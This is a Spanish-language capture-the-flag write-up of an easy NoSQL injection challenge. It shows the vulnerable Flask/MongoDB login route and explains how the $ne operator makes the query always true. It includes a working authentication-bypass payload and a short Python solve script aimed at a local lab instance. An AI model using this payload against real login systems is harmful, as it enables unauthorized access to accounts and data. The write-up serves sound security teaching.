

# Description

Name: NOT SQL

Description: Este reto no es una inyección SQL

Difficulty: Ez

# Set up

`docker build -t ctf-nosql .`

`docker run -d --rm -p 6002:6002 --name ctf-nosql ctf-nosql`

# Write up

Visitando la página principal del reto, obtenemos el código fuente. Revisando este código podemos ver que la aplicación Flask hace uso de una base de datos NoSQL (mongodb) y tiene una ruta adicional: `/login`, accesible mediante métodos GET y POST.

Navegando a `/login`, el reto nos presenta el formulario de login más feo de la historia, si analizamos el código podemos ver como gestiona los parámetros introducidos por los usuarios.

```python
@app.route('/login', methods=['POST'])
def login():
    if request.is_json:
        data = request.get_json()
        username = data.get('username')
        password = data.get('password')
        user = users.find_one({'username': username, 'password': password})

        if user:
            with open('flag.txt', "r") as f:
                flag = f.read()
            return f'Welcome\n{flag}', 200, {'Content-Type': 'text/plain'}
        else:
            return 'Invalid username or password'
    else:
        return 'Request must be in JSON format.'
```

En este caso, como se puede comprobar en el código, la ruta `/login` recibe los parámetros del formulario en formato json, este es un punto importante ya que lo tendremos que tener en cuenta posteriormente para enviar nuestras peticiones.

Esos parámetros en formato json se usan para hacer una query a la base de datos y verificar si existe un usuarios que coincida con los datos introducidos.

`user = users.find_one({'username': username, 'password': password})`

Podemos establecer similitudes con una query de SQL, la traducción podría ser la siguiente:

`SELECT * FROM users WHERE username = 'username' AND password = 'password' LIMIT 1`

Como podemos ver, la diferencia es que la condición del `WHERE` se define haciendo uso de diccionarios, pero no deja de ser una condición. Por tanto, nuestro objetivo sigue siendo el de hacer que ese condicional sea verdadero para que se devuelva algún registro de la base de datos (como si nos hubieramos autenticado con un usuario y contraseña reales), de esta forma conseguiremos acceso y la flag.

Existen numerosa documentación acerca de inyecciones NoSQL, para conocer que forma tienen las payloads usadas podemos visitar https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

Las payloads se basan en el uso de operadores como `$ne`, `$ne` o `$regex` que podemos usar para definir nuestras propias condiciones.

Por ejemplo, si proporcionamos los siguientes parámetros como entrada:

`{"username": {"$ne": ""}, "password": {"$ne": ""} }`

Conseguiríamos que la condición del `find_one` sea:

`users.find_one({'username': {"$ne": ""}, 'password': {"$ne": ""}})`

De forma traducida, le estaríamos diciendo a la base de datos: "dame un usuario de la colección users cuyo username sea **no igual** a una cadena vacía y cuya contraseña sea **no igual** a una cadena vacía".

De esta forma la query siempre devolvería algún resultado ya que es seguro que los usuarios existentes en la base de datos tienen usernames y passwords no vacios.

Para construir la petición y enviar nuestro payload hay que tener en cuenta un par de detalles:

1. El `Content-Type` indicado debe ser `application/json` ya que la aplicación nos pide los parámetros en formato json.
2. Indicar los parámetros en formato json, obviamente.

Usando Burp Suite podemos hacer una petición como la que se muestra y obtener la flag.




Podemos automatizar la resolución del reto de forma simple con el siguiente script de Python:

# solve.py

```python
import requests

# Change this
target = 'http://127.0.0.1:6002'


payload = '''{"username": {"$ne": ""},"password": {"$ne": ""}}'''


r = requests.post(f'{target}/login',data=payload, headers={'Content-Type':'application/json'})
print(r.text)
```